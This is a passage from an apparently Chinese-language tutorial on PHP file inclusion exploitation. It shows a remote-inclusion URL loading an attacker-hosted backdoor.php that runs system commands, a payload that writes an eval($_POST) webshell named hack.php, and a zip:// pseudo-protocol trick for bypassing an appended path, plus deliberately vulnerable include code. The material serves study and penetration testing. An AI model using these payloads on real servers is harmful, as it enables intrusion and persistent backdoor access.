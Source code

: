 如：`http://x.x.x.x/fileinclude2.php?file=http://x.x.x.x/backdoor.php%23`

backdoor.php中的php代码为`&lt;?php system('whoami'); ?&gt;`，结果成功命令执行了

也可以将php代码替换为`fputs(fopen('hack.php','w'),'&lt;?php [@eval](https://github.com/eval)($_POST[v])?&gt;');?&gt;`写入木马`hack.php`，用shell管理工具连接

<a class="reference-link" name="%E6%B3%A8%E6%84%8F%EF%BC%9AWindows%E5%92%8CLinux%E4%B8%8B%E7%9A%84%E5%8C%BA%E5%88%AB"></a>**注意：Windows和Linux下的区别**

在Linux下，是上面这种情况；

在Windows下有些许不同：不加`?`或者`#(%23)`也可以执行，加了也可以执行，而且`#`不进行url编码和进行url编码为`%23`都是可以执行的。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0163916a79d7a1deca.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0167fb228e826837d4.png)

**<a class="reference-link" name="%E8%A7%A3%E5%86%B3%EF%BC%9A%E5%88%A9%E7%94%A8%E4%BC%AA%E5%8D%8F%E8%AE%AE"></a>解决：利用伪协议**

前面有提到过利用zip伪协议和phar伪协议。假设现在测试代码为：

```
&lt;?php
    $file = $_GET['file'];
    include $file.'/test/test.php';
?&gt;
```

<a class="reference-link" name="%E5%A7%BF%E5%8A%BF%E4%B8%80%EF%BC%9A%E5%88%A9%E7%94%A8zip%E4%BC%AA%E5%8D%8F%E8%AE%AE"></a>**姿势一：利用zip伪协议**

构造压缩包如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01eb8b44b7e9918a70.png)

其中test.php内容为：

```
&lt;?php phpinfo(); ?&gt;
```

注意要指定绝对路径，若是使用相对路径，则会文件包含失败。一些别的利用条件等请看上面的`zip://`

```
fileinclude2.php?file=zip://D:\phpStudy\PHPTutorial\WWW\J0.zip%23J0
```

则拼接后为：`zip://D:\phpStudy\PHPTutorial\WWW\J0.zip#J0/test/test.php`

[![](https://p0.ssl.qhimg.com/t014e39cc550a88de67.png)](https://p0.ssl.qhimg.com/t014e39cc550a88de67.png)

能成功包含。
